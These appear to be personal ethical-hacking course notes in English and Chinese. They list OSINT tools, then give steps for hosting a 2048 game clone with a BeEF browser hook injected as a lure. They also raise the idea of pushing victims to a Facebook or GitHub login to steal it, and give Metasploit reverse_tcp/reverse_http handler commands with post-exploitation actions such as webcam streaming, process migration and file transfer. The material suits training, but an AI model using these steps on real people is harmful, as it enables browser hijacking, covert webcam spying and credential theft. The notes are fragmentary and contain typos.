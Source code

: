 
https://viewdns.info
https://gephi.org/
https://www.spiderfoot.net/

Semi-automatic OSINT framework and package manager
https://github.com/kpcyrd/sn0int
Open-source python project to handle the storage and linking of open-source intelligence (ala Maltego)
https://github.com/mgeide/poortego

## fake game
https://github.com/PacktPublishing/The-Complete-Ethical-Hacking-Course

github.com 2048
https://github.com/atilsamancioglu/2048
apt install apache2
cd /var/www/html
git clone https://github.com/atilsamancioglu/2048

beef
./install
/opt/beef/extensions/metasploit/config.yaml
./beef

把beef-xss代码加把 2048的index.hmtl中去

facebook steal
Q：beef能否有自动脚本，比如一个人上当后，让他马上用github facebook登录

有点像花生壳，有免费的域名
https://www.noip.com

## meterpreter

获得一个 meterpreter 会话后我们能做什么？
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 10.0.2.15
exploit
session -l
session -1
进入会话后：
systeminfo
help
webcam_stream

### migratie
ps
能看到比如 explore.exe 进程是 2824
那么执行
migratie 2824
### 上传下载文件
upload 文件名
download 文件名

